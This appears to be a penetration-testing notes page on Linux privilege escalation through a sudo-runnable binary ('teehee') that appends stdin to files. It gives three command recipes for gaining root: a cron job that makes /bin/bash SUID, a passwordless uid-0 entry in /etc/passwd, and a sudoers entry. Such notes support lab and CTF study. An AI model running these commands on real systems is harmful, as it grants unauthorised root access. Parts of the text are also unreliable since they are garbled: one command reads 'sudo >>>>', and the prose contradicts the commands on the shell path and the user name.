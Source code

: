 # STDIN/STDOUT

if we can copy stdin to a file and to stdout we can use these techniques to gain root privilege on linux. this can be done with a vulnerable binary that doesn't correctly handle I/O.

## method 1

add an entry to the “/etc/crontab” file which is executed every minute to change the permissions fro the “/bin/sh” binary to be 4777 which means SUID.

```text
echo "* * * * * root chmod 4777 /bin/bash" | sudo >>>>  /etc/crontab
```

if the vulnerable binry file is called teehee, we will have something like this:

```text
echo "* * * * * root chmod 4777 /bin/bash" | sudo teehee -a /etc/crontab
/bin/bash
```

this means that the vulnerable binary run the echo command and add the line to /etc/crontab which will run every minute and gives us full access to /bin/bash as root

## method 2

adding an entry the /etc/passwd file for a new user called “hackingresources” with the same uid \(User ID\) and gid \(Group ID\) as root user and this user has no password.

```text
echo "root2::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
su root2
```

again we are using the same vulnerability with a different method.

## method 3

by adding an entry to the /etc/sudoers file which will allow jim user to run all the commands as root without the need for the password.

```text
echo " username ALL=(ALL:ALL) ALL" | sudo teehee -a /etc/sudoers 
username$ sudo /bin/bash
```



















